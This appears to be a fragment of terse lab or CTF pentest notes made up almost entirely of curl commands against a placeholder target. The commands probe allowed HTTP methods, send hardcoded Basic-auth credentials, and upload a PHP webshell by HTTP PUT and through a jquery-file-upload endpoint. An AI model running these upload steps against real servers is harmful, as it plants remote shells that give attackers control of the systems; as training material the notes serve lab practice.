 ```bash - kali
curl -v -X OPTIONS http://$TARGET/test
```
```bash - kali
curl -v -X OPTIONS http://$TARGET/test -H "Authorization: Basic YWRtaW5pc3RyYW50OnNsZWVwbGVzcw=="
```
![[0._PHP Webshells#wwolf]]
```bash - kali
curl --upload-file webshell.php -v --url http://$TARGET/test/webshell.php -0 --http1.0 -H "Authorization: Basic YWRtaW5pc3RyYW50OnNsZWVwbGVzcw=="
```
```bash - kali
curl -F "files=@webshell.php" http://$TARGET/Books/apps/jquery-file-upload/server/php/
```
